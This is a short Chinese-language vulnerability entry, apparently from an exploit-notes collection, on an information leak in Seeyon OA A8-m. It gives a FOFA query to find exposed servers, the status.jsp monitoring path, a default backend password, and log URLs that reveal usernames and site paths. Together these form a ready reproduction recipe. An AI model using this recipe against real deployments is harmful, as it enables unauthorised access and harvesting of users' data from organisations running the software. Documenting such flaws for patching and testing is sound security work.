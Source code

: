 # 致远OA A8 status.jsp 信息泄露漏洞

## 漏洞描述

致远OA A8-m 存在状态监控页面信息泄露，攻击者可以从其中获取网站路径和用户名等敏感信息进一步攻击

## 漏洞影响

```
致远OA A8-m
```

## FOFA

```
title="A8-m"
```

## 漏洞复现

访问监控页面

```
/seeyon/management/status.jsp
```

![image-20220520153340922](./images/202205201533962.png)

后台密码为 WLCCYBD@SEEYON

登录后通过如下url获得一些敏感信息

```
/seeyon/management/status.jsp
/seeyon/logs/login.log
/seeyon/logs/v3x.log
```

![image-20220520153355298](./images/202205201533377.png)

![image-20220520153408356](./images/202205201534420.png)

![image-20220520153422315](./images/202205201534381.png)